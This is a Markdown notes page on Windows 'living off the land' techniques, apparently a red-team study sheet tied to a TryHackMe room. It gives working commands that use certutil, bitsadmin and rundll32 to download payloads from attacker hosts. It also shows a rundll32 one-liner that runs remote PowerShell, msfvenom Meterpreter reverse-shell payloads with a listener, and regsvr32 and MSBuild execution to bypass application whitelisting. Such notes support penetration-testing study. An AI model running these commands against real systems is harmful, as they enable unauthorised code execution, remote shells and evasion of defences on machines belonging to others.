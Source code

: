 # Windows Living Off The Land

## Sysinternals

Due to the inherent trust Sysinternals has within the Operating system its use does get monitored by Blue Teams. See the [[Sysinternals-Hub]] for connecting links to all the tools eventually.

## LOLBAS
*"The goal of the [LOLBAS](https://lolbas-project.github.io/)  project is to document every binary, script, and library that can be used for Living Off The Land techniques. The phrase "Living off the land" was coined by Christopher Campbell (@obscuresec) & Matt Graeber (@mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).* The Site [LOLBAS](https://lolbas-project.github.io/) has search functionality for ease of use.

#### Criteria

A LOLBin/Lib/Script must:

-   Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft.
-   Have extra "unexpected" functionality. It is not interesting to document intended use cases.
    -   Exceptions are application whitelisting bypasses
-   Have functionality that would be useful to an APT or red team

Interesting functionality can include:

-   Executing code
    -   Arbitrary code execution
    -   Pass-through execution of other programs (unsigned) or scripts (via a LOLBin)
-   Compiling code
-   File operations
    -   Downloading
    -   Upload
    -   Copy
-   Persistence
    -   Pass-through persistence utilizing existing LOLBin
    -   Persistence (e.g. hide data in ADS, execute at logon)
-   UAC bypass
-   Credential theft
-   Dumping process memory
-   Surveillance (e.g. keylogger, network trace)
-   Log evasion/modification
-   DLL side-loading/hijacking without being relocated elsewhere in the filesystem.

## File Operation

Certutil can download files and encode files. Certutil is a Windows built-in utility for handling certification service.
```powershell
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
certutil -encode payload.exe Encoded-payload.txt
certutil -decode Encoded_file payload.txt
```

Bitsadmin [BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer)  - This differs from [lolbas](https://lolbas-project.github.io/#) and has not been changed so I assume that that version all works - it complains about too many arguments on some systems 
```powershell
bitsadmin.exe /transfer <jobname> /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\<user>\Desktop\payload.exe

bitsadmin.exe /transfer NewUpdate /Download /priority High http://Attacker_IP/payload.exe c:\Users\<user>\Desktop\payload.exe
# LOLBAS version - for references and just incase legacy Windows
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

Use `findstr` insteading finding text and string patterns in files, find and download remote file from SMB shared folder 
```powershell
findstr /V dummystring \\MachineName\ShareFolder\test.exe > C:\Windows\Temp\test.exe
```


## File Execution

Windows has multiple system binaries that can execute others, MITRE [ATT&CK](https://attack.mitre.org/) called  framework, considers this technique as to be term as either Signed Binary Proxy Execution or Indirect Command Execution.

`explorer.exe` is the file manager and system component for Windows and can perform Indirect Command Execution.
```powershell
# Located
# C:\Windows\explorer.exe - Windows 32 bits version
# C:\Windows\SysWOW64\explorer.exe - Windows 64 bits version
explorer.exe /root,"C:\Windows\System32\cmd.exe"
```

Windows Management Instrumentation (`wmic.exe`) see [[WMI-Commands]] for more), perform [ATT&CK Technique](https://attack.mitre.org/techniques/) called Signed Binary Proxy Execution  
```powershell
wmic.exe process call create cmd
```

Rundll32 is a Microsoft built-in tool that loads and can run local [[Dynamic-Link-Libraries]], thus run arbitrary payloads and execute JavaScript and PowerShell scripts. This is [ATT&CK Technique](https://attack.mitre.org/techniques/) called Signed Binary Proxy Execution.
```powershell
# Embedded eval() function
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"cmd\");window.close()");
```

```powershell
# run javascript: executing embedded powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```


## Bypassing Application Whitelisting 
Application Whitelisting is a rule-based (approved X.exe only) Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Therefore [LOLBAS](https://lolbas-project.github.io/) are used to bypasses the whitelisting by being whitelisted.

[Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/) is used by Windows to register dlls it can be used to execute arbituary binaries and bypass Whitelisting. According to [https://redcanary.com/](https://redcanary.com/) this the third most popular [ATT&CK Technique](https://attack.mitre.org/techniques/T1218/010/) used to execute native code or scripts locally or remotely **in memory**.
```powershell
# C:\Windows\System32\regsvr32.exe
# C:\Windows\SysWOW64\regsvr32.exe

# DLL reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
# Host and File transfer/Infiltrate it
c:\Windows\System32\regsvr32.exe c:\Users\<user>\Downloads\live0fftheland.dll
# OR
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
# /s - silent mode
# /n - do not call DLL register server
# /u - use another server instead as /n used
# /u - run with unregistered method
```


In 2016, Microsoft added support for the Linux environment on Windows 10,11, and Server 2019: Windows Subsystem for Linux ([WSL](https://docs.microsoft.com/en-us/windows/wsl/about)), and it exists in [two WSL versions](https://docs.microsoft.com/en-us/windows/wsl/compare-versions): WSL1 and WSL2. 
```powershell
bash.exe -c cmd.exe # "/path/to/payload!"
```

## No Powershell

[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) *"Run PowerShell command without invoking powershell.exe"* It relies on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. You can also execute raw shellcode using the same approach.

```bash
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=$IP LPORT=4443 -f psh-reflection > liv0ff.ps1
# Listener
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost $IP;set lport 4443;exploit"
# Python2.. to convert the payload to be compatible 
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

On target build the `.csproj` file and wait for the reverse shell!
```powershell
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\<user>\Desktop\liv0ff.csproj
```

## cmdl32 

File transfer: Download a file from the web address specified in the configuration file. The downloaded file will be in %TMP% under the name VPNXXXX.tmp where "X" denotes a random number or letter.  

```powershell
cmdl32 /vpn /lan %cd%\config
```


## MSBuild

Incoming at some point - read the LOLBins
[WWHF | A Master Class on Offensive MSBuild | Chris Truncer & Joe Leon | 1 Hour](https://www.youtube.com/watch?v=an8vf1shfmk&t=1653s)

https://lolbas-project.github.io/lolbas/Binaries/Msbuild/

## References
[LOLBAS](https://lolbas-project.github.io/)
[THM Room Living off the land](https://tryhackme.com/room/livingofftheland)
[BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer)
[WSL](https://docs.microsoft.com/en-us/windows/wsl/about)
[https://redcanary.com/](https://redcanary.com/) 
[ATT&CK](https://attack.mitre.org)